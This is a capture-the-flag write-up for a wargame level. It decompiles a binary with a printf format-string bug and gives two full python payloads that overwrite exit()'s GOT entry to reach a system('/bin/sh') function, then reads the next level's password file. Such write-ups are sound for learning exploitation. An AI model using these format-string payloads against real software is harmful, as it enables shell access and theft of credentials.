 get the binary on host
* `scp -P 4242 level5@192.168.56.107:./level5 ./binary/level5`

decompile using ghidras
```c
/*08048504*/void main(void)
			{
				n();
				return;
			}

/*080484c2*/void n(void)
			{
				undefined local_20c [520];
			
				fgets(local_20c,512,stdin);
				printf(local_20c);
/*080484f8*/		
				exit(1);
			}

/*080484a4*/void o(void)
			{
				system("/bin/sh");
				exit(1);
			}

```
`https://axcheron.github.io/exploit-101-format-strings/` <= learn to do a GOT Overwrite

We need addr of `o()`, `exit()`, `the offset of the string` 
* o addr ====> 0x0804 84a4
* exit addr => 0x08 04 98 38 (using objdump -R)
* By trying we get an off set of 4

str => `addr exit`\
`python -c "print '\x38\x98\x04\x08' + '%134513824x%4\$hn'" > /tmp/exploit_5; cat /tmp/exploit_5 - | ./level5` << this is valid but let try a faster way cause waiting 134 513 824 space to print is long

We can split the addr of 0 in 2 and but it in 2 time :\
`python -c "print '\x38\x98\x04\x08' + '%2048x%4\$hn' + '%31904x%4\$hn'" > /tmp/exploit_5; cat /tmp/exploit_5 - | ./level5`
```
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```